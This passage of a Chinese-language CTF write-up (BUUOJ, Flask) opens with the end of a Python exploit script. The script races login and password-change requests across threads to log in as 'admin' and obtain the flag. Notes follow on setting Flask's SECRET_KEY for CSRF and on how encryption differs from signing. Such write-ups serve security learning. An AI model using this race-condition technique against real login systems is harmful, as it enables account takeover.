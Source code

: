 ```python
    return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/change", data=data)

def func1(s):
    login(s, 'test', 'test')
    change(s, 'test')

def func2(s):
    logout(s)
    res = login(s, 'admin', 'test')
    if 'flag' in res.text:
        print('finish')

def main():
    for i in range(1000):
        print(i)
        s = requests.Session()
        t1 = threading.Thread(target=func1, args=(s,))
        t2 = threading.Thread(target=func2, args=(s,))
        t1.start()
        t2.start()

if __name__ == "__main__":
    main()
```
##  其他知识点
1.关于flask的serect_key
```
如果遇到了 Must provide secret_key to use csrf错误提醒，原因就是没有设置secret_key ，在代码中加上
```
app.config[‘SECRET_KEY‘]=‘xxx‘
```
SECRET_KEY最好不要写在代码中。
最好设置一个config.py文件，从中读取该内容
config.py
```
CSRF_ENABLED = True
SECRET_KEY = ‘you-will-never-guess‘
```
CSRF_ENABLED = True
SECRET_KEY = ‘you-will-never-guess‘
```
app.py
```
app.config.from_object(‘config‘)
```
app.config.from_object(‘config‘)
这样就可以防止csrf了

2.关于加密和签名的区别
```
数据签名和数据加密的过程都是使用公开的密钥系统，但实现的过程正好相反，

数据加密使用的是接受方的密钥对，任何知道接受方公钥的都可以向接受方发送消息，但是只有拥有私钥的才能解密出来；

数据签名使用的是发送方的密钥对，任何接受方都可以用公钥解密，验证数据的正确性。

一句话总结：

数据加密保证了数据接受方的数据安全性。

数据签名保证了数据发送方的数据安全性。

就拿A给B发送经过签名加密信息来说：
1、A对信息签名的作用是确认这个信息是A发出的，不是别人发出的；
```